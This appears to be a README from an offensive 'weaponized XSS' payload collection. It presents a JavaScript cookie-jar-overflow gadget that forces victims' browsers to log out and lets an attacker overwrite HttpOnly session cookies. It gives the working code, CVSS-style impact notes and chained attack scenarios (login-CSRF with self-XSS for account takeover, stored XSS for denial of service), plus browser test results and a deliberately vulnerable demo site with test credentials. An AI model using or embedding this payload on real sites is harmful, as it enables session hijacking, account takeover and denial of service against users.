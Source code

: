# [authn] Cookie Jar Overflow

<p align="justify">This payload terminates the current session with the web application, on the client-side (i.e. logs out the victim user account from the web application).</p>

<p align="justify">This is achieved by filling the web browser's cookie jar with a large number of junk cookies. When their number is greater than the limit of the cookie jar (typically, around 300), the web browser will start to overwrite any existing (legitimate) cookies in the cookie jar with these newly created ones. Once this occurs, the cookie jar is filled only with such junk (but valid) cookies.</p>

<p align="justify">In order to completely clear the cookie jar, the next step is to remove them. This is done by assigning each of them an expiry date with a value in the past. The web browser treats all such cookies as invalid and removes them from the cookie jar. Since it contained only expired cookies, the result of this is an empty cookie jar. From this point onwards, it is possible to create new cookies, as required.</p>

<p align="justify">It should be noted that the described process can be used to manipulate <code>HttpOnly</code> cookies, which are otherwise inaccessible by client-side JavaScript. This is possible because the web browser overwrites all cookies, including <code>HttpOnly</code> ones. Since it only receives the cookie's name and value in a HTTP request <code>Cookie</code> header (i.e. no attributes), based on this information, the server-side can not differeniate whether a received cookie is assigned <code>HttpOnly</code> or not. This makes it possible to create a cookie with the same name as a <code>HttpOnly</code> one on the client-side, and, even though it will not have the <code>HttpOnly</code> attribute set, such a cookie will be accepted by the server-side (i.e. accepted as legitimate; under the condition that its value is valid).</p>

Typical use-case scenarios:
* login-CSRF + self-XSS chained attacks
    * IMPACT:
        * Sensitive Information Disclosure
            * CVSS-Confidentiality: MEDIUM/HIGH
        * Account Take Over (ATO)
            * CVSS-Confidentiality: MEDIUM/HIGH
            * CVSS-Integrity: MEDIUM/HIGH
* server-side JavaScript payload storage potential
    * idea: deny any user authenticated context
    * IMPACT: DoS (CVSS-Availability: MEDIUM/HIGH)
    * e.g. stored XSS; web cache poisoning + reflected (DOM) XSS
        * frequently navigated (authenticated) page (e.g. main page/home page/dashboard)

## Code

```
let cookJarLimit = 400;
let postfix1 = '=a;';
let postfix2 = '=a; expires=Thu, 01 Jan 1970 00:00:01 GMT;';
if (location.protocol == 'https:') {
  postfix1 += ' Secure';
}
function fillCookieJar(inputJarLimit, inputPostfix) {
  for(let i=0; i<inputJarLimit; i++) {
    document.cookie = 'cookie' + i + inputPostfix;
  }
}
fillCookieJar(cookJarLimit, postfix1);
fillCookieJar(cookJarLimit, postfix2);
```

## Test Environment

### Web Browsers (20250808)

* [x] Mozilla Firefox 141.0.3 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 139.0.3405.86 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/login.php

`test:test`

## Screenshot

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieJarOverflow/screenshots/cookieJarOverflow_-_logout_-_1-1.png">
      <img src="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieJarOverflow/screenshots/cookieJarOverflow_-_logout_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/935b6dc9-8f95-4d85-9890-59c94c1ffe8c
